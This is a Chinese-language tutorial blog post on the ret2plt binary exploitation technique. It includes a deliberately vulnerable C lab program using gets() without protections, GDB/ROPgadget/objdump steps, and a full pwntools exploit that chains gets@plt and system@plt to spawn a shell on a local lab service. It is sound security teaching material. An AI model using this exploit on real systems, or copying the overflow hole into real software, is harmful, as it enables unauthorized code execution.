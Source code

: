 ```yaml
---
title: "Day15－ret2plt"
date: 2024-09-15
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

昨天剛學完神奇的 one gadgets，今天我們將回到 PLT 表，介紹 ret2plt 的攻擊手法。如果沒有足夠的 gadgets 可供使用，並且無法 leak libc，我們可以將目標轉向 PLT。這種技巧通常被稱為 ret2plt。

## ret2plt

顧名思義，ret2plt 就是將執行流程返回到 PLT 表上。那麼，為什麼這樣做可以取得 shell 呢？我們先來看幾個例子：

- `write(1, "ret2plt", 7)` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image1.png)

- `puts("ret2plt")` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image2.png)

這些例子中，實際上都是輸出 "ret2plt" 這個字串。如果有可以利用的 PLT 表，就可以用更短的 chain 完成，而不需要尋找過多可用的 gadgets。類似的：

- `system("/bin/sh")` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image3.png)

這代表我們可以先透過 `gets` 或其他可以寫入的 PLT 將資料寫進可寫區域，然後把該區域當作 `system@plt` 的參數，這樣就可以將 `/bin/sh` 或 `sh` 寫入並呼叫 `system@plt`。如此一來，便能開啟 shell。

簡單來說，ret2plt 是透過 binary 中已有的函數，先準備好參數，然後直接呼叫這些函數來達成攻擊目的。即使在無法 leak libc 的情況下，也能透過返回 PLT 表來使用該函數，這就是 ret2plt。

## Lab

查看以下程式碼：

```c=
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    system("echo 'Welcome to challenge!'");
    printf("Leave a message: ");
    gets(message);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2plt.c -o ./ret2plt/share/ret2plt -fno-stack-protector -no-pie
```

你可以自行嘗試這個題目，或繼續閱讀以下解題步驟。

## Writeup

首先，程式在一開始使用了 `system` 來 echo 一段文字，這代表程式編譯時會有 `system@plt`。同時，程式也使用了 `gets`，這使得我們可以進行 buffer overflow 並輸入資料。題目中也沒有 Canary 和 PIE，符合我們進行 ret2plt 的條件。接下來，我們只需要確認以下資訊即可開始撰寫 exploit：

- 可以將資料寫在哪個位置
- 如何疊加 chain

首先，使用 GDB 查看可以寫入的區域。我們可以先執行 `gdb ./ret2plt`，然後設置中斷點 `b main`，執行 `r`，再使用 `vmmap` 查看程式的記憶體區塊。會發現 0x404000~0x405000 之間是可寫的區域。接著，我們可以從後面開始檢查，如 `x/10gx 0x405000-0x100`，發現這些地方沒有被寫入。因此，我們可以選擇 0x404f00 作為寫入位置。

![image](/images/iron2024/day15_image4.png)

![image](/images/iron2024/day15_image5.png)

接著，我們需要使用 `pop rdi` 將要輸入的位置傳遞給 `gets`，這可以透過 `ROPgadget --binary ret2plt | grep "pop rdi"` 找到。我們發現 0x40115a 是 `pop rdi; ret`。

![image](/images/iron2024/day15_image6.png)

接著，使用 `objdump` 查看 `gets@plt` 和 `system@plt` 的地址，輸入 `objdump -M intel -d ret2plt`。結果顯示 `gets@plt` 在 0x401050，`system@plt` 在 0x401030。同時，我們還要確認 padding 的大小，發現輸入會從 `rbp-0x10` 開始，因此 padding 是 `0x10+0x8=0x18`。

![image](/images/iron2024/day15_image7.png)

![image](/images/iron2024/day15_image8.png)

![image](/images/iron2024/day15_image9.png)

資訊確認完畢後，我們可以開始撰寫 exploit。

完整 exploit：

```py=
from pwn import *

# r = process('../ret2plt/share/ret2plt')
r = remote('127.0.0.1', 10007)

pop_rdi = 0x000000000040115a
gets_plt = 0x401050
system_plt = 0x401030
bss = 0x404f00

payload = b"A" * (0x10 + 0x8) + p64(pop_rdi) + p64(bss) + p64(gets_plt) + p64(pop_rdi) + p64(bss) + p64(system_plt)

r.sendlineafter(b"Leave a message: ", payload)
r.sendline(b"/bin/sh")
r.interactive()
```

簡單來說，就是透過 `pop rdi; ret` 和 `gets@plt` 將 `/bin/sh` 寫入到 BSS 段，接著再使用 `pop rdi; ret` 將 BSS 段的資料傳遞給 `system@plt`，以此開啟 shell。

solve！！

![image](/images/iron2024/day15_image10.png)
